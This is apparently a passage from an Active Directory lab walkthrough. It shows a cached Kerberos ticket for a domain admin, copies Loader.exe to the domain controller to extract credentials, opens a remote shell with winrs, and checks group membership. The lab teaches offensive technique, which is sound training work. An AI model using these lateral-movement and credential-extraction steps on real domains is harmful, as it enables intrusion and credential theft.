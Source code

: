 `klist`:
```
Current LogonId is 0:0x14ce21f

Cached Tickets: (1)🎟️

#0>     Client: svcadmin🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/13/2025 1:49:43 (local)
        End Time:   2/13/2025 11:49:43 (local)
        Renew Time: 2/20/2025 1:49:43 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

Run the below commands from the process running as DA to copy `Loader.exe` on `dcorp-dc` and use it to extract credentials.

`echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y`:
```
Does \\dcorp-dc\C$\Users\Public\Loader.exe specify a file name
or directory name on the target
(F = file, D = directory)? F
C:\AD\Tools\Loader.exe
1 File(s) copied
```

`winrs -r:dcorp-dc cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\svcadmin>
```
🚀

![dcorp-dc | svcadmin](https://custom-icon-badges.demolab.com/badge/dcorp--dc-svcadmin-64b5f6?logo=windows11&logoColor=white)

`whoami /groups`:
```
C:\Users\svcadmin>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                          Attributes
============================================ ================ ============================================ ===============================================================
Everyone                                     Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access   Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                       Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                         Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users             Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization               Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
```